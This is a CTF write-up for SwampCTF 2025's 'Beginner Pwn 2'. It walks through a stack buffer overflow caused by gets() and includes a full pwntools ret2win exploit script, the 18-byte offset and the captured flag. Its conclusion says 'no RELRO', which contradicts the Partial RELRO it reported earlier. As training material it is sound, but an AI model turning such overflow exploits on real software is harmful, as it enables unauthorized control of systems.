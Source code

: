 ```yaml
---
title: "Beginner Pwn 2 🚀 – Ret2Win Basics (SwampCTF 2025)"
tags: [CTF, binary exploitation, ret2win, buffer overflow, pwn]
---
```


# Beginner Pwn 2 🚀

![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![CTF](https://img.shields.io/badge/Event-SwampCTF%202025-purple)

> In this challenge there is a function which is not called. Can you fix that?

To get the flag, you need to perform a **ret2win** — let’s break it down!

This is a great intro challenge to basic control flow hijacking, made simple by a lack of stack protections and an exposed win function.

## 📚 Table of Contents

- [Initial Analysis 🕵️](#initial-analysis-%EF%B8%8F)
- [Binary Breakdown 🔎](#binary-breakdown-)
- [The Vulnerability 💣](#the-vulnerability-)
- [Finding the Offset 🧮](#finding-the-offset-)
- [Ret2win Chain 📦](#ret2win-chain-)
- [Exploit 💥](#exploit-)
- [Conclusion 🧠](#conclusion-)

## Initial Analysis 🕵️

### Checksec result

![Checksec result](https://github.com/user-attachments/assets/c535a65b-b281-4676-80ca-64277a53c1e4)

- RELRO: Partial
- Stack Canary: ❌
- NX: ✅
- PIE: ❌

### Behavior

This binary reads one line of input and echoes it back with a greeting:

![Run binary](https://github.com/user-attachments/assets/cfe75557-9881-4705-88f0-fa966a4f1af9)

So where’s the trick?

## Binary Breakdown 🔎

### Main function (Ghidra)

![Main Ghidra](https://github.com/user-attachments/assets/a2512cab-4c56-4278-bec0-947edfa8500a)

```
undefined8 main(void)
{
  undefined8 local_12;
  undefined2 local_a;

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  local_12 = 0;
  local_a = 0;
  gets((char *)&local_12);
  printf("Hello, %s!\n", &local_12);
  return 0;
}
```

`gets()` is completely unsafe — it allows us to **overflow the stack** and take control of the return address.

### Hidden win() function

![Win function](https://github.com/user-attachments/assets/74bc5c99-97c7-4d47-90ba-b3f7687a8539)

```
void win(void)
{
  puts("win");
  FILE *f = fopen("flag.txt", "r");
  fread(&local_38, 1, 0x1e, f);
  printf("Here is your flag! %s\n", &local_38);
  fclose(f);
}
```

If we can call this `win()` function, we get the flag — no checks, no passwords.

## The Vulnerability 💣

The use of `gets()` on a stack buffer with no bounds = instant overflow.

We just need to:
- Overflow until RIP
- Inject the address of `win()`

## Finding the Offset 🧮

Let's use GDB-peda and pattern_create to find the offset and overwrite RIP: 

![Pattern create](https://github.com/user-attachments/assets/37201255-abfb-45e1-a9f3-cafeee23bb19)

Then we put the created pattern in the input, and we have a SIGSEGV.

Pattern_offset display us 18: 

![Pattern offset](https://github.com/user-attachments/assets/b8f0fed3-297a-4f44-b79d-f778a9d6e772)

## Ret2win Chain 📦

We simply use the overflow to overwrite RIP by the win function (NO PIE):

```
[ padding ] + [ win function ]
```

*No ret gadget needed here due to clean alignment and x86_64 ABI compliance.*

## Exploit 💥

```python
#!/usr/bin/env python3

from pwn import *
import argparse
import sys

BUFFER_OFFSET = 0x12

def build_payload(win_addr):
    payload  = b"A" * BUFFER_OFFSET
    payload += p64(win_addr)
    return payload

def run_local(path):
    print(f"[*] Running locally: {path}")
    elf = ELF(path)
    context.binary = elf
    return elf, process(path)

def run_remote(host, port, path):
    print(f"[*] Connecting to {host}:{port}")
    elf = ELF(path)
    context.binary = elf
    return elf, remote(host, port)

def main():
    parser = argparse.ArgumentParser(description="Exploit for Beginner Pwn 2")
    subparsers = parser.add_subparsers(dest="mode", required=True)

    # Local mode
    local_parser = subparsers.add_parser("local")
    local_parser.add_argument("binary", type=str, help="Path to the local binary")

    # Remote mode
    remote_parser = subparsers.add_parser("remote")
    remote_parser.add_argument("ip", type=str, help="Remote IP")
    remote_parser.add_argument("port", type=int, help="Remote port")
    remote_parser.add_argument("binary", type=str, help="Path to binary for symbol resolution")

    args = parser.parse_args()

    # Setup
    if args.mode == "local":
        elf, io = run_local(args.binary)
    else:
        elf, io = run_remote(args.ip, args.port, args.binary)

    # Build and send payload
    win_addr = elf.symbols["win"]
    payload = build_payload(win_addr)

    io.sendline(payload)

    # Extract flag
    try:
        io.readuntil(b"swampCTF{")
        flag = "swampCTF{" + io.readuntil(b"}").decode()
        print(f"[+] Flag: {flag}")
    except:
        print("[-] Failed to capture flag.")
        io.interactive()

    io.close()

if __name__ == "__main__":
    main()
```

### Output

![Flag displayed](https://github.com/user-attachments/assets/d15521e1-1ab8-40b6-88c2-43c90f84643b)

```
[+] Flag: swampCTF{1t5_t1m3_t0_r3turn!!}
```

## Conclusion 🧠

Classic and clean:

- Buffer overflow via `gets()`
- Stack control + RIP overwrite
- Simple ret2win technique
- No canary, no PIE, no RELRO = playground 🎢

🔙 [Back to SwampCTF 2025 Writeups](../../)

